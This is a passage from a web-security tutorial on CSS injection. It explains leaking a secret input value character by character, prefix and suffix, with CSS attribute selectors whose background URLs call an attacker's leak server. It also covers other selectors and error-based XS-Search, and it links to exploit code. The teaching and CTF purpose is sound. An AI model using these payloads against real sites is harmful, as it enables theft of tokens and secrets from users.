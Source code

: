 The attacker will f**ollow that loop until it manages to leak completely the secret**.

You can find the original [**Pepe Vila's code to exploit this here**](https://gist.github.com/cgvwzq/6260f0f0a47c009c87b4d46ce3808231) or you can find almost the [**same code but commented here**.](#css-injection)

> [!NOTE]
> The script will try to discover 2 chars each time (from the beginning and from the end) because the attribute selector allows to do things like:
>
> ```css
> /* value^=  to match the beggining of the value*/
> input[value^="0"] {
>   --s0: url(http://localhost:5001/leak?pre=0);
> }
>
> /* value$=  to match the ending of the value*/
> input[value$="f"] {
>   --e0: url(http://localhost:5001/leak?post=f);
> }
> ```
>
> This allows the script to leak the secret faster.

> [!WARNING]
> Sometimes the script **doesn't detect correctly that the prefix + suffix discovered is already the complete flag** and it will continue forwards (in the prefix) and backwards (in the suffix) and at some point it will hang.\
> No worries, just check the **output** because **you can see the flag there**.

### Other selectors

Other ways to access DOM parts with **CSS selectors**:

- **`.class-to-search:nth-child(2)`**: This will search the second item with class "class-to-search" in the DOM.
- **`:empty`** selector: Used for example in [**this writeup**](https://github.com/b14d35/CTF-Writeups/tree/master/bi0sCTF%202022/Emo-Locker)**:**

  ```css
  [role^="img"][aria-label="1"]:empty {
    background-image: url("YOUR_SERVER_URL?1");
  }
  ```

### Error based XS-Search

**Reference:** [CSS based Attack: Abusing unicode-range of @font-face ](https://mksben.l0.cm/2015/10/css-based-attack-abusing-unicode-range.html), [Error-Based XS-Search PoC by @terjanq](https://twitter.com/terjanq/status/1180477124861407234)

The overall intention is to **use a custom font from a controlled endpoint** and ensure that **text (in this case, 'A') is displayed with this font only if the specified resource (`favicon.ico`) cannot be loaded**.
